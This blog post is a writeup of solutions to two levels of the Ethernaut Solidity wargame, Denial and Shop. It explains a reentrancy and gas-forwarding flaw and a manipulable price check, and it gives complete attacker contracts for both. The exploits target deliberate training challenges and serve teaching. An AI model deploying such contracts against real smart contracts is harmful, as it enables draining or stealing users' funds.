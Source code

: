 ```yaml
---
layout: post
title:  Ethernaut challenges writeup Part V (Challenges 20 to 22).
excerpt_separator: <!--more-->
category: DeFi
---
```


Hello there! Today's post covers solutions for [Ethernaut](https://ethernaut.openzeppelin.com/) challenges 20 and 21.

<!--more-->

# Challenges write up

## Denial

I solved this level exploiting the fact that the contract it is vulnerable to re-entrancy attacks. As it is possible to see, it does not implement any protection against these attacks. I analyzed function `withdraw()` and quickly saw that it used a low level `call` on `partner`. This was similar to previous level [King](https://nahueldsanchez.com.ar/Solving-Ethernaut-Challenges-08-12/) but this time the contract did not care about the result of the sending operation, so it was not possible to solve it in the same way. But as you may know, unless specified, `call` forwards all the remaining Gas to the called contract. In this case, we can exploit this in two ways:

1. Using reentrancy
2. Creating an Out Of Gas exception

I used option 1 and created a contract that in it's `receive` function it performed another call to `withdraw`, exploiting the re-entrancy issue. I set this malicious contract as partner and started the attack issuing a `withdraw()`.

It's interesting to mention the Note provided while solving the level:

```
Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
```

Based on this I understand that if the vulnerable contract had less code to execute after the `CALL` instruction it could be not affected (and thus not solvable).

### Further Reading

- Secure Ether Transfer - https://fravoll.github.io/solidity-patterns/secure_ether_transfer.html
- Solidity - Transfer vs send vs call function - https://medium.com/coinmonks/solidity-transfer-vs-send-vs-call-function-64c92cfc878a
- Why using assert, since it would consume all gas - https://ethereum.stackexchange.com/questions/27812/why-using-assert-since-it-would-consume-all-gas
- Recommendations for Smart Contract Security in Solidity - https://ethereum-contract-security-techniques-and-tips.readthedocs.io/en/latest/recommendations/

### Solution source code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IDenial {
    function withdraw() external payable;
}

contract DenialTest {

    address victim;

    constructor(address _victim) public {
        victim = _victim;
    }

    // allow deposit of funds
    receive() external payable {
        IDenial(victim).withdraw();
    }

    function attack() public {
        IDenial(victim).withdraw();
    }

}
```

## Shop

Level similar to "Elevator", in this case we can leverage the state change in the variable `isSold` in the `Shop` contract and based on that determine which price we want to return. If we see `isSold` set to `false` we know that the seller contract is asking the price to perform the verification `_buyer.price() >= price` then, we return a price higher or at least equal to `price` (100). Once the verification is done `isSold` is set to `true`. The issue relies on the fact that the Seller contract ask for the price again, and this time, the buyer contract can return a different value. I coded this solution in my contract below.

Regardless of this, the underlying issue is that contracts should not trust in other contracts and change their state based on untrusted logic.

### Solution source code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IShop {
    function buy() external;
    function isSold() external returns (bool);
}

contract Buyer {
    uint public _price1 = 100;
    uint public _price2 = 1;
    address shop;

    constructor(address _shop) public {
        shop = _shop;
    }

    function price() public returns (uint) {
        if(!IShop(shop).isSold()) {
            return _price1;
        } else {
            return _price2;
        }
    }

    function buy() public {
        IShop(shop).buy();
    }
}
```

